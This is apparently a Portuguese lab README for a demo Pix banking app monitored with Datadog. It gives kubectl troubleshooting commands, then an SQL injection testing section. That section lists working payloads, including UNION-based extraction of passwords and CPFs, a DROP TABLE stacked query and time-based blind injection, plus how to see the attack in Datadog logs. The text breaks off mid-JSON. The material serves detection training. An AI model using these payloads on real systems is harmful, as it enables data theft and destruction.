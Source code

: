 ```bash
# Verificar se o Datadog Agent está rodando
kubectl get pods -n datadog

# Verificar logs do Agent
kubectl logs -n datadog <datadog-agent-pod>

# Verificar se os pods têm as labels corretas
kubectl get pods -n production --show-labels
```

### Traces não correlacionam com logs

```bash
# Verificar se DD_LOGS_INJECTION está setado
kubectl get deployment -n production transactions -o yaml | grep DD_LOGS_INJECTION

# Verificar formato dos logs (deve ser JSON)
kubectl logs -n production <pod-name> | head -1 | jq .




```

EXTRA !! Testar ataque de sql Injection !!


Como funciona o ataque:
1. Query SQL Normal:
sqlSELECT u.nome, u.email, u.cpf, c.saldo, c.banco, u.chave_pix 
FROM usuarios u 
JOIN contas c ON u.id = c.usuario_id 
WHERE u.chave_pix = 'yuki.pix@email.com'
2. Query SQL com Injection:
sqlSELECT u.nome, u.email, u.cpf, c.saldo, c.banco, u.chave_pix 
FROM usuarios u 
JOIN contas c ON u.id = c.usuario_id 
WHERE u.chave_pix = 'yuki.pix@email.com' OR '1'='1'
Resultado: Retorna TODOS os usuários porque '1'='1' é sempre verdadeiro!
🎯 Outros Payloads para testar:
Payload 1: Bypass simples
' OR '1'='1
→ Retorna o primeiro usuário da tabela
Payload 2: Union-based (extrair dados)
' UNION SELECT nome, senha, cpf, email, banco, chave_pix FROM usuarios--
→ Tenta extrair senhas dos usuários
Payload 3: Comentar resto da query
test@email.com'--
→ Ignora o resto da query SQL
Payload 4: Stacked queries
'; DROP TABLE transacoes_pix;--
⚠️ NÃO TESTE ISSO - Vai deletar a tabela!
Payload 5: Time-based blind
' OR pg_sleep(5)--
→ Causa delay de 5 segundos se vulnerável
Payload 6: Error-based
' AND 1=CAST((SELECT COUNT(*) FROM usuarios) AS INT)--
→ Força erro para revelar quantidade de usuários
🔍 Onde ver o ataque no Datadog:
1. Logs
Filtre por:
@security_event:sql_injection_vulnerable_endpoint
Você verá:
json{
  "security_event": "sql_injection_vulnerable_endpoint",